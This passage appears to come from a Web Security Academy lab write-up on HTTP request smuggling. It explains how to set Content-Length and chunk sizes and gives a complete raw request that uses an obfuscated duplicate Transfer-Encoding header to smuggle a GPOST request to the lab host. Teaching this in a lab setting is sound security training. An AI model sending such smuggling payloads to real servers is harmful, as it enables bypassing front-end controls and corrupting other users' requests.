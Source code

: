 The Content-Length and chunk sizes must be changed. For the CL in the GPOST, the minimum value should be 10 plus one (11) - length of actual smuggled request body plus one. To fix the chunk size before GPOST, select everything from `GPOST` to `x=1`, missing the CRLF to get the hex value of 5c.

Finally, the CL should be changed at the top to indicate to the back-end server using CL that the request ends after `5c` which is 4 bytes:

```http
POST / HTTP/1.1
Host: 0a7e00f204b1fcfae1bc6a7a00bb006e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: x

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

x=1
0


```

After, send the attacker and normal request.
